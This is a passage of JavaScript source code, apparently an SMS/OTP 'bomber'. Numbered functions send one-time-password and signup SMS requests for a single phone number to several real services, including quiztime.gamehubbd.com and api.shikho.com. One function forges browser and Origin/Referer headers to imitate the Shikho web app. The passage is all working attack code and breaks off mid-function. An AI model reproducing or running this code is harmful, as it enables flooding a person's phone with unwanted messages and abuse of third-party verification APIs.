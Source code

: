         const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 9 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 9 Error:', error);
        throw error;
    }
}

async function api_10(phone) {
    const url = "https://developer.quiztime.gamehubbd.com/api/v2.0/send-otp";
    

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
            'Content-Type': 'application/json',
            'Content-Length': JSON.stringify({
            country_code: "+88",
            phone: phone
            }).length
            },
            body: JSON.stringify({
            country_code: "+88",
            phone: phone
            })
        });

        const result = await response.json();

        
        if (result.status === 'Failed' || result.error || result.message.includes('limit exceeded')) {
            throw new Error(`API 10 Failure: ${result.message || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 10 Error:', error);
        throw error;
    }
}

        async function api_11(phone) {
 const data = {
 phone: phone,
 type: 'student',
 auth_type: 'signup',
 vendor: 'shikho'
 };
    try {
        const response = await fetch('https://api.shikho.com/auth/v2/send/sms', {
            method: 'POST',
           headers: {
           'Content-Type': 'application/json',
           'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0',
           'Accept': 'application/json, text/plain, */*',
           'Origin': 'https://app.shikho.com',
           'Referer': 'https://app.shikho.com/'
           },
           body: JSON.stringify(data)
        });
